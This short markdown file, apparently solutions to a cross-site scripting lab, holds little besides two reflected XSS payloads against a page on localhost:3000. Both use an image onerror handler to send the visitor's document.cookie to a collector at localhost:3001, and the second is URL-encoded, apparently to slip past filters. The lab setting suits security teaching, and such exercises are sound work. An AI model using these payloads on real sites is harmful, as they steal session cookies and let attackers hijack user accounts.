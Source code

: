 
# Solutions
1. ```http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>```

2.```%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
```
